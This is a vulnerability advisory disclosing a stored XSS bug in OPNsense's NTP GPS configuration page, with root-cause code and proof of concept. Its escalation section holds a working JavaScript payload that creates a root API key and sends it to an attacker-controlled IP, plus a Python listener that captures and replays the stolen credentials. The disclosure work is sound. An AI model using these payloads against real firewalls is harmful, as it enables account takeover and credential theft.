


# Stored XSS in Services: NTP GPS

- Published: 01.07.2026 (Reported: 24.06.2026)
- Severity: Moderate (5.4) - `CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N`
- Software: [OPNsense](https://github.com/OPNsense/core)
- Version: `<26.1.10`
- References:
- - [CVE-2026-58392](https://nvd.nist.gov/vuln/detail/CVE-2026-58392)
- - [GHSA-h793-67jm-j4m5](https://github.com/opnsense/core/security/advisories/GHSA-h793-67jm-j4m5)
- - [Blog Post](https://hackerask.com/posts/opnsense/)

## Summary

The NTP GPS configuration page stores the operator-supplied *Initialisation Commands* (`initcmd`) field **base64-encoded** and on render `base64_decode()` it straight back into the page.
The page does call the escaper `legacy_html_escape_form_data()`, but it runs before the decode, so it escapes only the base64 string and the decoded raw bytes are emitted unescaped inside a `<textarea>`.
A payload that closes the textarea executes as **stored XSS** in the session of any user who opens the page.

## Details

### Root cause

The escaper runs on the encoded form, the sink decodes after

```php
# src/www/services_ntpd_gps.php
...
# line 65 - stores the XSS payload base64 encoded
$gps['initcmd']= base64_encode($gps['initcmd']);    
...
# line 75 - escapes the config fields, but only escapes a base64 encoded initcmd
legacy_html_escape_form_data($pconfig);                                                                                                     
...
# line 501 - base64 decodes the initcmd value, which emits the unescaped XSS payload
<textarea name="initcmd" class="formpre" id="gpsinitcmd" cols="65" rows="7"><?=base64_decode($pconfig['initcmd']);?></textarea><br />
```

`initcmd` is read from `$_POST` with no validator, stored base64-encoded and on render decoded back and echoed directly into the page body.
Because the escaping happens on the encoded string and the decode happens at the sink, no effective input sanitization is performed.
A payload of `</textarea><script>alert(1337)</script>` breaks out of the `<textarea>` and is executed.

## Proof of Concept

Open **Services -> Network Time -> GPS** as any authenticated user holding the `page-services-ntp-gps` privilege.
Expand the Advanced section and put the payload in **Initialisation Commands**, then **Save**:

```html
</textarea><script>alert(1337)</script>
```

After reloading the GPS page, the stored script executes in the session of whoever views it, including an administrator.



---

### Forging API Credentials

An attacker could escalate this to generate and exfiltrate API keys.
Therefore he could serve the following web server:

```python3
#!/usr/bin/env python3
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse, json, urllib3, requests
urllib3.disable_warnings()

TARGET   = "https://192.168.1.1"
DEMO     = "/api/core/system/status" 
BOUNCE   = "https://192.168.1.1/services_ntpd_gps.php"

class AttackerWebServer(BaseHTTPRequestHandler):
    def do_GET(self):
        raw = urllib.parse.urlparse(self.path).query
        raw = raw.split('=', 1)[1] if '=' in raw else raw
        creds = urllib.parse.unquote(raw)

        # bounce the victim back immediately
        self.send_response(302)
        self.send_header('Location', BOUNCE)
        self.end_headers()

        if ':' not in creds:
            print("\n[?] non-credential hit: " + creds)
            return
        key, secret = creds.split(':', 1)
        print("\n" + "=" * 70)
        print("[+] CAPTURED OPNsense API CREDENTIAL")
        print("    API key   : " + key)
        print("    API secret: " + secret)

        # Authenticated Test Request with captured credentials
        try:
            r = requests.get(TARGET + DEMO, auth=(key, secret), verify=False, timeout=10)
            print("\n[+] REPLAYED FROM ATTACKER BOX  ->  GET " + DEMO)
            print("    HTTP " + str(r.status_code))
            try:
                print(json.dumps(r.json(), indent=2)[:4000])
            except ValueError:
                print(r.text[:2000])
        except Exception as e:
            print("[-] replay failed: " + str(e))
        print("=" * 70)

    def log_message(self, *a):
        pass

if __name__ == "__main__":
    print("[*] listening on 0.0.0.0:1337 ...")
    HTTPServer(('0.0.0.0', 1337), AttackerWebServer).serve_forever()
```

(You can find the source code of the web server [here](server.py).)

```html
</textarea><script>(async()=>{try{if(sessionStorage._x)return;sessionStorage._x=1;var t=document.documentElement.innerHTML.match(/X-CSRFToken", "([^"]+)"/)[1];var r=await fetch('/api/auth/user/addApiKey/root',{method:'POST',credentials:'include',headers:{'X-CSRFToken':t}});var j=await r.json();location='http://192.168.1.120:1337/x?'+encodeURIComponent(j.key+':'+j.secret);}catch(e){}})();</script>
```

This PoC will generate and exfiltrate API credentials for the root user.



## Impact

A low-privileged NTP-GPS operator (with the privilege `page-services-ntp-gps`) can store javascript that runs in the browser of any user who opens the GPS page.
That permits theft of the CSRF token and execution of authenticated actions as the victim.

## Credit

Jonas Ampferl at Hacking Cult GmbH <https://hackingcult.de/>

Blog Post with writeup and PoC: <https://hackerask.com/posts/opnsense/>
